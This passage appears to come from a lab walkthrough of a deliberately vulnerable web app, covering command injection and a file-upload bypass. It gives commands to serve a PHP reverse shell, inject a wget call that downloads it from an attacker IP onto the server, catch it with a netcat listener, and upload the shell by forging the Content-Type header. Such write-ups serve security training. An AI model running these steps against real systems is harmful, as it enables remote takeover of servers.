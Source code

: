 - edit `/usr/share/webshells/php/php-reverse-shell.php` to include your IP and Port
- Start a Python server to serve `php-reverse-shell.php` with `cd /usr/share/webshells/php/; python3 -m http.server 8001`
- Submit the following command in the website to download your reverse shell to the machine: `` `wget http://10.10.113.99:8001/php-reverse-shell.php -O /var/www/html/rev.php` ``
- Start a listener with netcat to catch the shell: `nc -lnvp 413`
- Visit `http://TARGET_IP/rev.php` to trigger the shell, and enjoy!

## File Upload

We can reuse the reverse shell file we just created for this vulnerability. Attempting to upload it directly fails:

![](/assets/images/Pasted image 20211121230551.png)

Often, browsers indicate the type of content the user is sending with a header in the HTTP request, usually `Content-Type` - we can see it in the request using our Developer Tools:

![](/assets/images/Pasted image 20211121230646.png)

We can Edit and Resend this request to see the type more clearly:

![](/assets/images/Pasted image 20211121230757.png)

If we want to trick the website into thinking this is an image, we can try changing the header to `image/jpeg`:

![](/assets/images/Pasted image 20211121230915.png)

The response shows a `200 OK`, and the path of our new file on the server!

![](/assets/images/Pasted image 20211121230956.png)

If we restart our listener with `nc -lnvp 413` and visit `/hackable/uploads/php-reverse-shell.php` in browser, we trigger the shell:

![](/assets/images/Pasted image 20211121231045.png)

